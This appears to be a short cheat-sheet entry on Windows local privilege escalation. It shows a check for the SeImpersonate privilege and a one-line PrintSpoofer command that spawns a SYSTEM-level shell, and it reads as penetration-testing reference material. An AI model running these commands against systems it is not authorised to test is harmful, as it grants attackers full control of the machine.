 # Windows Privilege Escalation

## PrintSpoofer.exe
- Tested on Windows 10
- Uses Names Pipes and SeImpersonate to gain SYSTEM level priviledges - LPE
```bash
# Check for SeImpersonate
whoami /priv
# Execute LPE
PrintSpoofer.exe -i -c cmd
```

